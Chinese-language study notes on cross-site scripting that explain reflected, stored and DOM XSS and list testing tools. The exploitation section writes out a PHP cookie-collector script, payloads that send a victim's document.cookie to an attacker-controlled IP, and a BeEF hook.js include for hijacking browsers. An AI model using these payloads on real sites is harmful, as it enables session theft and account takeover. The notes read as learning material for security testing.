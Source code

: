 ~~~shell
http://172.168.20.84/2.php?a=<script>alert(1)</script>
# 工具
xssstrike（git）
dalfox（git）
~~~

## 1、XSS类型

1、反射性

​	又称非持久型XSS，具有一次性，只在用户单击时才可以

​	常见出现的位置：

~~~shell
<a>123123</a>
<script>alert(1)</script>
1、看源代码
2、搜索
3、试标签
4、闭合
#在线短链接生成：
	reurl.cc
~~~

2、存储型

stored xss attacks，也是持久型xss。

~~~shell
# 常见出现的位置
留言板、论坛等
# 测试：图书管理页面
~~~

3、DOM型

不会提交给后端，直接前端处理，是抓不到包的

## 2、XSS利用

~~~shell
# XSS攻击利用XSS平台
1、XSS平台
	xss.yt写脚本
	xssaq.com
	自己搭建平台
2、手动测试
（1）cookie.php
<?php
$cookie = $_REQUEST['abc'];
file_put_contents('cookie.txt',$cookie);
?>
(2)payload
<script>document.location='http://100.100.100.26/cookie.php?cookie='+docume
nt.cookie</script>
# beef软件的安装（钩子：控制对方主机，进行一系列活动）
工具：beef-xss
安装：apt install beef-xss
apt remove beef-xss
# 语句
* <script src="http://172.168.20.84:3000/hook.js"></script>
* <script>document.location='http://172.168.20.166/cookie.php?abc'+document.cookie</scripts>
#cookie和session的区别：
1、对象不同：
cookie是针对每个网站的信息，每个网站只能对应一个，其它网站无法访问。
session是针对每个用户的，只有客户端才能访问。session将在用户访问结束后自动消失。
~~~